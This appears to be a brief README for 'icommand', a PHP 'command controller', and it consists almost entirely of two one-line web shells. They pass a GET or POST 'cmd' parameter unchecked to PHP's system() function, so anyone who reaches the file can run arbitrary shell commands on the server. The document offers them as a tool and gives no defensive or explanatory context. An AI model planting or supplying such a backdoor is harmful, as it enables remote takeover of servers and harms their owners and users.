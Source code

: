 ### icommand - command controller for PHP system function
- - -
* icommand works for **POST** and **GET** requests:
        `<?php system($_GET['cmd']); ?>`
        `<?php system($_POST['cmd']); ?>`
